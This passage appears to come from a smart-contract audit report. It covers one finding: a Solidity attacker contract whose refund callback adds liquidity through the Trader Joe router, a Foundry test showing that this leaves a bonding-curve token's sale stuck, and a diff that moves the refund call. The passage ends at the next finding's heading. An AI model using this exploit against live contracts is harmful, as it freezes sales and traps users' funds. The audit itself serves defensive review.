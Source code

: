 ```solidity
contract Refundee {
    address internal router = 0x60aE616a2155Ee3d9A68541Ba4544862310933d4; // trader joe router
    receive() external payable {
        console2.log("HUH");
        ContinuosBondingERC20Token(msg.sender).approve(router, 1 ether);
        address wNative = IJoeRouter02(router).WAVAX();
        console2.log("SUCC: ", address(this).balance);
        IJoeRouter02(router).addLiquidityAVAX{ value: 1 ether }(
            msg.sender, 1 ether, 1, 1, address(this), block.timestamp
        );
        ContinuosBondingERC20Token(msg.sender).transfer(msg.sender, 200_000_001 ether);
    }
}
```

Exploit:

```solidity
    function testPooled() public {
        address attacker = address(new Refundee());
        vm.deal(attacker, 10_000 ether);
        vm.deal(user, 10_000 ether);
        vm.startPrank(attacker);

        bondingERC20Token.buyTokens{ value: 202.2 ether }(0);
        // This call will revert and the token will be stuck in the initial sale phase
        vm.startPrank(user);
        vm.expectRevert();
        bondingERC20Token.buyTokens{ value: 200 ether }(0);
    }
```

## Recommendations

```diff
-        (bool sent,) = msg.sender.call{ value: refund }("");
-        if (!sent) {
-            revert FailedToSendETH();
-        }

        if (liquidityGoalReached()) {
            _createPair();
        }

+        (bool sent,) = msg.sender.call{ value: refund }("");
+        if (!sent) {
+            revert FailedToSendETH();
+        }
```

# [C-02] Creating a token with a poisoned router
